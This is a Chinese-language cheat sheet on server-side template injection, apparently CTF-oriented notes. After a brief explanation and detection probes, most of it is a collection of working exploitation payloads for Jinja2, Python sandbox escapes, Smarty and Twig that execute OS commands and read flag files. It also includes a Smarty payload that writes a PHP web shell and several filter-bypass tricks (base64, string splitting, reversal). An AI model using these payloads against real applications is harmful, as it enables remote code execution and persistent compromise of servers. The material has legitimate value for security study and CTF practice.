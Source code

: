 SSTI是什么
SSTI类似与sql注入，但是与sql有所不同的是，SSTI利用的事故网站的模板引擎，主要是网站处理框架。

Python的jinja2 mako tornado django
php的smarty twig
java的jade velocity
一个模板例子：

$output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) );

这串代码有一个很明显的XSS，但是它还有更深的危害。

custom_email={{7*7}} // GET 参数

49  // $output 结果

如何使用
检测漏洞
文本类
大部分的模板语言支持我们输入 HTML

smarty=Hello {user.name}
Hello user1

freemarker=Hello ${username}
Hello newuser

any=<b>Hello</b>
<b>Hello<b>

未经过滤的输入会产生 XSS，我们可以利用 XSS 做我们最基本的探针。除此之外，模板语言的语法和 HTML 语法相差甚大，因此我们可以用其独特的语法来探测漏洞。虽然各种模板的实现细节不大一样，不过它们的基本语法大致相同，我们可以发送如下 payload来确认漏洞。

smarty=Hello ${7*7}
Hello 49

freemarker=Hello ${7*7}
Hello 49
###代码类
在一些环境下，用户的输入也会被当作模板的可执行代码。比如说变量名.这种情况下，XSS 的方法就无效了。但是我们可以通过破坏 template 语句，并附加注入的HTML标签以确认漏洞：

personal_greeting=username<tag>
Hello
personal_greeting=username}}<tag>
Hello user01 <tag>
判断注入模板

## 漏洞利用

### jinjia2

{{config}}

标志：

&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: None, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt

------------------------------------------------------------------------------------------------------

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}{% endif %}{% endfor %}

#### payload:

```
name={{[].__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /f*").read()')}}
```

### python2

[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')

### python3

''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']


### smarty

一，漏洞确认(查看smarty的版本号)：
{$smarty.version}
二，常规利用方式：（使用{php}{/php}标签来执行被包裹其中的php指令，smarty3弃用）
{php}{/php}
执行php指令，php7无法使用

<script language="php">phpinfo();</script>
三，静态方法
public function getStreamVariable($variable){ $_result = ''; $fp = fopen($variable, 'r+'); if ($fp) { while (!feof($fp) && ($current_line = fgets($fp)) !== false) { $_result .= $current_line; } fclose($fp); return $_result; } $smarty = isset($this->smarty) ? $this->smarty : $this; if ($smarty->error_unassigned) { throw new SmartyException('Undefined stream variable "' . $variable . '"'); } else { return null; } }

payload1:（if标签执行PHP命令）
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if system('cat /flag')}{/if}
四，其他payload
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

### twig

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}


### waf绕过

base64

().__class__.__bases__[0].__subclasses__()[40]('r','ZmxhZy50eHQ='.decode('base64')).read()
相当于:
().__class__.__bases__[0].__subclasses__()[40]('r','flag.txt')).read()
字符串拼接：
+号绕过

().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()
相当于
().__class__.__bases__[0].__subclasses__()[40]('r','flag.txt')).read()
[::-1]取反绕过

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}
reload方法：

del __builtins__.__dict__['__import__']    # __import__ is the function called by the import statement

del __builtins__.__dict__['eval']    # evaluating code could be dangerous
del __builtins__.__dict__['execfile']   # likewise for executing the contents of a file
del __builtins__.__dict__['input']   # Getting user input and evaluating it might be dangerous

当没有过滤reload函数时，我们可以重载builtins

reload(__builtins__)

### 当不能通过[].class.base.subclasses([60].init.func_globals[‘linecache’].dict.values()[12]直接加载 os 模块

这时候可以使用getattribute+ 字符串拼接 / base64 绕过 例如:

[].__class__.__base__.__subclasses__()[60].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__.values()[12]

等价于:

[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]